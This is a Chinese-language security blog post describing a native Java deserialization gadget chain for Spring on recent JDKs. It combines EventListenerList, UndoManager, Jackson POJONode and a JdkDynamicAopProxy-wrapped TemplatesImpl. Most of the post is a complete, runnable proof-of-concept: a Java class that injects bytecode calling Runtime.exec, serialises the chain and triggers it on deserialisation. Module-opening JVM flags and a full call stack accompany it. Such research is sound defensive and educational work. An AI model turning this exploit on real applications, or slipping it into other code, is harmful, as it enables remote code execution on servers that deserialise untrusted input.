


+++
title= "Spring 原生反序列化利用链"
slug= "spring-native-deserialization-chains"
description= ""
date= "2025-12-10T22:50:56+08:00"
lastmod= "2025-12-10T22:50:56+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

低版本的我也不懂，我只知道高版本的。

高版本 BadAttributeValueExpException 不能触发 toString 了，寻找一个替换的类，之前学到过在`EventListenerList#readObject`中有一个 add 方法，会动态加载并监听类，可以触发 toString 方法



后面就是 Jackson 链，加上高版本 jdk 反射，TemplatesImpl 需要使用 jdk 动态代理。

```java
--add-opens=java.base/sun.nio.ch=ALL-UNNAMED --add-opens=java.base/java.lang=ALL-UNNAMED --add-opens=java.base/java.io=ALL-UNNAMED --add-opens=jdk.unsupported/sun.misc=ALL-UNNAMED --add-opens java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-opens=java.base/java.lang.reflect=ALL-UNNAMED
```

poc 如下

```java
package org.example;

import com.fasterxml.jackson.databind.node.POJONode;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.springframework.aop.framework.AdvisedSupport;
import sun.misc.Unsafe;

import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Vector;

public class SpringPoc {
    public static void main(String[] args) throws Exception {
        patchModule(SpringPoc.class);

        ClassPool pool = ClassPool.getDefault();
        CtClass evilClass = pool.makeClass("Evil" + System.nanoTime());
        evilClass.makeClassInitializer().insertAfter("java.lang.Runtime.getRuntime().exec(\"open -a Calculator\");");

        byte[] evilBytes = evilClass.toBytecode();
        TemplatesImpl templates = new TemplatesImpl();
        CtClass stubClass = pool.makeClass("Stub" + System.nanoTime());
        byte[] stubBytes = stubClass.toBytecode();

        setFieldValue(templates, "_bytecodes", new byte[][]{evilBytes, stubBytes});
        setFieldValue(templates, "_name", "Pwnd");
        setFieldValue(templates, "_transletIndex", 0);


        CtClass nodeClass = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = nodeClass.getDeclaredMethod("writeReplace");
        nodeClass.removeMethod(writeReplace);
        nodeClass.toClass();

        Object proxyTemplates = getPOJONodeStableProxy(templates);
        POJONode jsonNode = new POJONode(proxyTemplates);

        EventListenerList listenerList = new EventListenerList();
        UndoManager undoManager = new UndoManager();
        Field editsField = getField(undoManager.getClass(), "edits");
        editsField.setAccessible(true);
        Vector edits = (Vector) editsField.get(undoManager);
        edits.add(jsonNode);
        setFieldValue(listenerList, "listenerList", new Object[]{Class.class, undoManager});

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(listenerList);
        oos.close();

        ByteArrayInputStream bais = new ByteArrayInputStream(barr.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
    }

    private static void patchModule(Class<?> clazz) {
        try {
            Unsafe unsafe = getUnsafe();
            Module javaBaseModule = Object.class.getModule();
            long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            unsafe.putObject(clazz, offset, javaBaseModule);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    private static Unsafe getUnsafe() throws Exception {
        Field f = Unsafe.class.getDeclaredField("theUnsafe");
        f.setAccessible(true);
        return (Unsafe) f.get(null);
    }

    private static Field getField(Class<?> clazz, String fieldName) {
        Field field = null;
        while (clazz != null) {
            try {
                field = clazz.getDeclaredField(fieldName);
                break;
            } catch (NoSuchFieldException e) {
                clazz = clazz.getSuperclass();
            }
        }
        return field;
    }

    private static void setFieldValue(Object obj, String field, Object val) throws Exception {
        Field dField = obj.getClass().getDeclaredField(field);
        dField.setAccessible(true);
        dField.set(obj, val);
    }

    private static Object getPOJONodeStableProxy(Object templatesImpl) throws Exception {
        Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> cons = clazz.getDeclaredConstructor(AdvisedSupport.class);
        cons.setAccessible(true);

        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(templatesImpl);

        InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);

        Object proxyObj = Proxy.newProxyInstance(
                clazz.getClassLoader(),
                new Class[]{Templates.class, Serializable.class},
                handler
        );
        return proxyObj;
    }
}
```



调用栈如下

```java
at org.springframework.aop.framework.JdkDynamicAopProxy.readObject(JdkDynamicAopProxy.java:311)
at jdk.internal.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at jdk.internal.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:77)
at jdk.internal.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:568)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1231)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2434)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2268)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1744)
at java.io.ObjectInputStream$FieldValues.<init>(ObjectInputStream.java:2617)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2468)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2268)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1744)
at java.io.ObjectInputStream$FieldValues.<init>(ObjectInputStream.java:2617)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2468)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2268)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1744)
at java.io.ObjectInputStream.readArray(ObjectInputStream.java:2168)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1732)
at java.io.ObjectInputStream$FieldValues.<init>(ObjectInputStream.java:2617)
at java.io.ObjectInputStream.readFields(ObjectInputStream.java:696)
at java.util.Vector.readObject(Vector.java:1158)
at jdk.internal.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at jdk.internal.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:77)
at jdk.internal.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:568)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1231)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2434)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2268)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1744)
at java.io.ObjectInputStream$FieldValues.<init>(ObjectInputStream.java:2617)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2468)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2268)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1744)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:514)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:472)
at javax.swing.event.EventListenerList.readObject(EventListenerList.java:304)
at jdk.internal.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at jdk.internal.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:77)
at jdk.internal.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:568)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1231)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2434)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2268)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1744)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:514)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:472)
at org.example.SpringPoc.main(Springpoc.java:62)
```


> https://baozongwi.xyz/p/peak-geek-2023-babyurl/
>
> https://baozongwi.xyz/p/lilctf2025-blade-cc/
